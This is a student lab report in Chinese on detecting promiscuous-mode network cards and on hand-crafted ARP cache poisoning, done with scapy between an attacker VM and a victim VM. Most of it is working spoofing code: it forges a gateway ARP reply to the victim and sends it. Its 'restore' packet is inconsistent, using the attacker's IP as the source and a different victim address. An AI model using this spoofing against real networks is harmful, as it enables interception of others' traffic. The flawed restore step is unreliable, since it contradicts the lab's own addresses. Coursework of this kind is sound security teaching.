

## 网络安全第四章实验报告

###### 

### 检测局域网中的异常终端

### 网络拓扑结构

网关 172.16.111.1


 攻击者主机  kali-attacker 172.16.111.111


 目标靶机  victim-kali-1 172.16.111.112


实验准备

   在攻击者主机安装scapy 

```
pip3 install scapy[complete]
```


### 实验一 检测局域网中的异常终端

 在受害者主机上检查网卡的「混杂模式」是否启用 

ip link show eth0

开启root权限；

先在攻击者主机上开启 scapy 。

 然后输入以下代码回车执行 

```
pkt = promiscping("172.16.111.112") 
```


回到受害者主机上开启网卡的「混杂模式」

```
sudo ip link set eth0 promisc on
```

 回到攻击者主机上的 scapy 交互式终端继续执行命令，比较差异 


发现多了一行

然后在受害者主机上关闭 混杂模式

### 手工单步毒化目标主机的 ARP 缓存

###### 获取当前局域网的网关 MAC 地址

构造一个 ARP 请求

arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")

 查看构造好的 ARP 请求报文详情

```
arpbroadcast.show()
```



发送这个 ARP 广播请求

```
recved = srp(arpbroadcast, timeout=2)
```


网关 MAC 地址

```
gw_mac = recved[0][0][1].hwsrc
```


###### 伪造网关的 ARP 响应包发送给受害者主机

ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址

```
arpspoofed=ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.112", hwdst= "08:00:27:0e:34:8d")
```

发送上述伪造的 ARP 响应数据包到受害者主机

```
sendp(arpspoofed)
```

###### 在受害者主机上查看 ARP 缓存


恢复受害者主机的 ARP 缓存记录

伪装网关给受害者发送 ARP 响应

```
restorepkt1 = Ether()/ARP(op=2, psrc="172.16.111.111", hwsrc="08:00:27:a6:e8:f6", pdst="172.16.111.108", hwdst="08:00:27:0e:34:8d")
```


###### 在受害者主机上“刷新”网关 ARP 记录

在受害者主机上ping网关

```
ping 172.16.111.1
```

 再次查看ARP缓存

```
ip neigh
```


参考资料

https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html

 [CUCCS/2020-ns-public-Annna777 at chap0x04 (github.com)](https://github.com/CUCCS/2020-ns-public-Annna777/tree/chap0x04) 

